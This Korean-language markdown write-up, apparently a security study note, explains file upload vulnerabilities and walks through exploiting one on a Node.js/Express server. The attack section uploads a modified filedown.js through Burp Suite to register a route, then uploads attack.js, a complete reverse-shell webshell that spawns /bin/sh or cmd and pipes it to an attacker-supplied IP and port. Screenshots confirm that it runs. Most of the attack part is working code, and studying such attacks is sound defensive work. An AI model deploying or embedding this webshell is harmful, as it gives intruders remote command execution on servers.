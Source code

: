 # 파일 업로드 공격
---
## 1. 파일 업로드 취약점이란 ?
---
+ 파일 업로드 취약점은 웹 서버가 제공하는 파일 업로드 기능을 이용하여 확장자 검증 미흡으로 서버에 악의적인 파일이 업로드가 가능한 취약점이다. 
+ 공격자는 서버에서 실행될 수 있는 파일을 업로드하여 공격자가 원하는 기능을 동작하게 한다. 적절한 검증 없이 파일 업로드 기능을 제공할 때 발생하는 취약점이므로 확장자에 대한 검증을 적용해야 한다.

---
## 2. 공격 방법
---
파일 다운로드 공격에서 다운받은 filedown.js 파일의 소스코드를 분석하여 아래와 같은 라우터 기능을 추가한다.
```js
router.use('/attack', require('../../../upload/attack.js'));
```
수정된 filedown.js를 Burpsuite를 통해 업로드 경로를 수정하여 업로드한다.

![수정된filedown.js업로드](https://user-images.githubusercontent.com/115529661/200773381-29c9c606-064a-4ed5-b177-f6b2c1e58fda.jpg)

filedown.js가 업로드 되는 것이 확인 되었으니 attack.js를 만들어 업로드를 진행해본다.
```js
var express = require("express");
var router = express.Router();

router.get("/", function(req, res) {
	var net = require("net"),
		cp = require("child_process"),
		sh = cp.spawn("/bin/sh",[]);     // 서버 OS가 리눅스 일 때
		sh = cp.spawn("cmd",[]);         // 서버 OS가 윈도우 일 때
	var client = new net.Socket();
	
	client.connect(req.query.port,req.query.ip,function(){
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/;
});

module.exports = router;
```
![attack.js업로드](https://user-images.githubusercontent.com/115529661/200774037-1414f3da-e507-492f-ae38-5279ee5e923f.jpg)

attack.js가 정상적으로 업로드 된 것을 확인해 볼 수 있다.

업로드가 되었으니 웹쉘을 실행해본다.

![공격결과](https://user-images.githubusercontent.com/115529661/200774615-56c47ede-f23b-4de1-b6af-1f040d15fd3b.jpg)

웹쉘 실행결과 정상적으로 실행된다는 것을 확인할 수 있고, js파일 업로드와 업로드 된 파일이 실행되는 것으로 업로드 공격을 진행할 수 있다. 